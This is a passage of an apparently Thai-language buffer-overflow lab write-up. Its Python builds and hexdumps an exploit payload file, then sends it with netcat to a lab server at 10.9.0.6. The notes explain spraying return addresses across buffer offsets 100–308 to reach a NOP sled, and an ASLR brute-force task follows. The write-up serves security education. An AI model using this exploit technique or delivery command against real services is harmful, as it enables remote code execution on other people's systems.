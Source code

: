 ```
# =============== แสดง Hexdump ด้วย Address ===============
print("=" * 78)
print(f"PAYLOAD HEXDUMP WITH ACTUAL ADDRESSES (Total: {len(content)} bytes)")
print(f"Buffer starts at: 0x{buffer_addr:08x}")
print("=" * 78)

# แสดงด้วย address จริง
for i in range(0, len(content), 16):
    chunk = content[i:i+16]
    
    # คำนวณ address จริง
    actual_address = buffer_addr + i
    
    hex_part = ' '.join(f'{b:02x}' for b in chunk)
    ascii_part = ''.join(chr(b) if 32 <= b < 127 else '.' for b in chunk)
    
    # แสดง address จริง
    print(f"{actual_address:08x}: {hex_part:<48} |{ascii_part}|")

print("=" * 78)

with open('badfile', 'wb') as f:
    f.write(content)
    
os.system('cat ./badfile | nc 10.9.0.6 9090')

```

### Condition
- Server ไม่บอก ebp ---> คำนวณหา offset ไม่ได้ ---> ระบุตำแหน่งที่อยู่ของ ret ไม่ได้


### Solve

- โจทย์ให้ Range of the buffer size (in bytes): [100, 300] 
- เนื่องจาก ระบุตำแหน่งที่อยู่ของ ret ไม่ได้ และทราบว่า min size of buffer = 100 เพื่อให้ shell code ทำงาน จะต้องเขียนทับ return address ให้ชี้ไปยัง NOP-sled(ที่อยู่ติดกับ shell code) จึงต้องเขียน ret value เข้าไปใน buffer ตั้งแต่ buffer[100] จนถึง buffer[308] โดยคาดหวังว่ามี Memory ในส่วนที่บรรจุ return address อยู่
- ret น้อยสุดที่เป็นไปได้ที่จะเกิด NOP-sled ในกระณีที่ buffer size = 300 คือ buffer_addr + (max size of buffer = 300) + 8



## Task 4: Experimenting with the Address Randomization (5 คะแนน) 

### OBjective
- Please send a message to the Level1 server, and do it multiple times. In your 
report, please report your observation, and explain why ASLR makes the buffer-overflow 
attack more difficult.
- Use the brute-force approach to attack the server repeatedly
